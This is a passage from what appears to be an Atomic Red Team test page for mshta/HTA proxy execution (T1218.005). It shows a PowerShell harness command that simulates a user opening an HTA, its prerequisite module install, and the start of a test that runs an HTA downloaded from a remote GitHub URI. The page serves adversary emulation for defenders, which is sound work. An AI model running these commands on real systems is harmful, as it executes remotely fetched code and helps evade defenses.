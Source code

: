 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_engine | Script Engine to use | string | JScript|
| hta_file_path | HTA file name and or path to be used | string | Test.hta|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-ATHHTMLApplication -HTAFilePath #{hta_file_path} -ScriptEngine #{script_engine} -SimulateUserDoubleClick
```




#### Dependencies:  Run with `powershell`!
##### Description: The AtomicTestHarnesses module must be installed and Invoke-ATHHTMLApplication must be exported in the module.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name AtomicTestHarnesses -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Invoke-ATHHTMLApplication']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```




<br/>
<br/>

## Atomic Test #6 - Invoke HTML Application - Direct download from URI
Executes an HTA Application by directly downloading from remote URI.

**Supported Platforms:** Windows


**auto_generated_guid:** 39ceed55-f653-48ac-bd19-aceceaf525db





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mshta_file_path | Location of mshta.exe | string | $env:windir&#92;system32&#92;mshta.exe|
| hta_uri | URI to HTA | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/24549e3866407c3080b95b6afebf78e8acd23352/atomics/T1218.005/src/T1218.005.hta|
